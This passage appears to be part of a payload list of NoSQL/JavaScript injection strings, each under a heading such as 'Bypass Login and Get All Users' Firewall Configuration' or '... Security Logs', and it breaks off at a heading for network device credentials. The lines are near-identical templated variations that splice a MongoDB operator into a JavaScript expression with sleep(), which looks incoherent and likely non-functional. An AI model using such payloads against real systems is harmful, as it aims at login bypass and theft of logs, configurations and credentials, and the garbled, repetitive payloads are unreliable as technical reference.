 ```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.error_logs != null
```

#### Bypass Login and Get All Users' Access Logs

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.access_logs != null
```

#### Bypass Login and Get All Users' Security Logs

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.security_logs != null
```

#### Bypass Login and Get All Users' Firewall Configuration

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.firewall_config != null
```

#### Bypass Login and Get All Users' Intrusion Detection System Configuration

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.ids_config != null
```

#### Bypass Login and Get All Users' Intrusion Prevention System Configuration

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.ips_config != null
```

#### Bypass Login and Get All Users' Network Traffic Logs

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_traffic_logs != null
```

#### Bypass Login and Get All Users' Network Device Configuration

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_config != null
```

#### Bypass Login and Get All Users' Network Device Credentials
